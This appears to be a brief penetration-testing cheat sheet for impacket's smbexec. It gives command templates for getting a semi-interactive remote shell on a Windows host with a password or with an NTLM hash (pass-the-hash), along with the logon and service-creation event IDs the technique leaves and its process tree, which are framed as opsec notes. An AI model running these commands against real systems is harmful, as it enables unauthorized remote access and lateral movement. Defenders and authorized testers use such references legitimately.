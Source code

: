 ### source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py  

### get semi interactive powershell
```
impacket-smbexec <domain>/<user>:<password>@<rhost>
```

### using hash
```
impacket-smbexec -hashes :<ntlmHash> <domain>/<user>@<rhost>
```
 
### opsec considerations
```
Windows Security Log Event IDs
-Logon (4624)
-Special Logon (4672)

Windows System Logs
-Service Control Manager (7045)
```

### running processes
```
cmd.exe
└── cmd.exe
    └── Conhost.exe
```

